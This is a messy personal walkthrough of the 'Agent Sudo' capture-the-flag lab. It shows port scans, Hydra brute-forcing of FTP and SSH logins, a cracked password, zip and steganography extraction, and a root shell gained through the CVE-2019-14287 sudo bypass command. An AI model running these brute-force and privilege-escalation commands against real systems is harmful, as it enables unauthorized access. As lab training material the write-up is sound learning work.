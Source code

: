
### NMAP


```
─(root💀kali)-[~/Desktop/THM]
└─# nmap -sT -sV 10.10.27.190    

Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 744.99 seconds
```

### FTP 

- Anonymous login not allowed on ftp

### HTTP

- brute forced using ffuf

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.27.190/FUZZ 
```

found nothing


okay so here after reading the writeup i understood we had to change the header of packet that is

user-agent:C


to get what we want, here we got a message saying that your passwrod is very weak


using this inspiration to brute force attack on ssh and ftp with username C to see what we get


<mark style="background: #BBFABBA6;">HYDRA</mark>


for ftp

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.27.190 ftp

took about 5-10 min

tried the same for ssh

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt 10.10.27.190 ssh


but got no hit so changed that wordlist

─(root💀kali)-[/usr/share/wordlists]
└─# hydra -l C -P rockyou.txt 10.10.27.190 ftp


tried with rockyou and waited for 10 min but no luck

didnt find anything after waiting for 10 min on both ssh and ftp so went for the writeup

okay my bad i was using username as c instead of chris 


tried this command and got the password

┌──(root💀kali)-[/usr/share/wordlists]
└─# hydra -l chris -P rockyou.txt 10.10.27.190 ftp


[21][ftp] host: 10.10.27.190   login: chris   password: crystal



Found this text in FTP and there were two images


──(root💀kali)-[~/Desktop/THM]
└─# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C



As per write i used strings commands to find a hiddent text field in cutie.jpg

```
To_agentR.txt
```


Now followed the writeup 

```
binwalk -e cutie.png
```



this didnt work for me so i used below command 

┌──(root💀kali)-[~/Desktop/THM]
└─# binwalk -e cutie.png --run-as=root


and got an extracted directory and these files in it


┌──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# ls
365  365.zlib  8702.zip  To_agentR.txt                                                         


here To_agentR.txt files was empty

as per the writeup and previous evidences and THM question the main data is in zip file but it has a password


using writeup again - below



But we can get the password by using `zip2john` and then use `john` to crack the hash.

![](https://blog.qz.sg/content/images/2021/10/image-23.png)

U may get errors extracting the files using `unzip` if so, use `7z e <zipfile>`


┌──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# 7z e 8702.zip         



After unzippin the file we got this

──(root💀kali)-[~/Desktop/THM/_cutie.png.extracted]
└─# cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R


<mark style="background: #ADCCFFA6;">Now with no idea went with writeup</mark>


The text in quotes look like what we want but it looks like it is encoded. No worries, [CyberChef](https://gchq.github.io/CyberChef/) to the rescue. You can either search for the decoding method to use manually or leave it to CyberChef, 

CyberChef works like magic and suggests auto decoding using Base64

![](https://blog.qz.sg/content/images/2021/10/image-26.png)

Now we have `Area51` , the only file left seems to be our`jpg` image. 

`steghide` is often used to hide data inside of `jpg` files with a passphrase, maybe that is why one of the questions ask us for the `steg password`.

We can verify if our jpg has something to hide, and indeed it does

![](https://blog.qz.sg/content/images/2021/10/image-29.png)

After extracting it with the password we found.

![](https://blog.qz.sg/content/images/2021/10/image-30.png)

AND BOOM SSH CREDENTIALS!

And the other is an image. We need to find out where is the image from. You can use the command below to download the image from the machine and do a reverse image search on Google so I will leave that to you  
`scp <user@machineip>:Alien_autospy.jpg /localdir/`

## [Task 5] Privilege escalation

We have reached the finale and the most exciting task of all.

We can use the typical commands to check the permissions of our user.

![](https://blog.qz.sg/content/images/2021/10/image-32.png)

Now this is interesting

It looks like our user is not allowed to run `/bin/bash` as `root` since we have a `!root`. However, this looks weird as the first `all` means our user can run `/bin/bash` as any user. This is interesting, perhaps we can find a way to exploit this.

As luck would have it, a google search returns us something we might be able to use to gain root privileges.

![](https://blog.qz.sg/content/images/2021/10/image-33.png)

According to [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)

> __In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.__

Version 1.8.28 eh.

![](https://blog.qz.sg/content/images/2021/10/image-34.png)

Looks vulnerable

Our `sudo` version is lower than 1.8.28, great, now we can exploit it.

Using the exploit we found, we can indeed spawn a root shell and get our root flag.

![](https://blog.qz.sg/content/images/2021/10/image-35.png)

That's all folks


following the above steps i logged in as root

james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# ls
Alien_autospy.jpg  user_flag.txt
root@agent-sudo:~# 


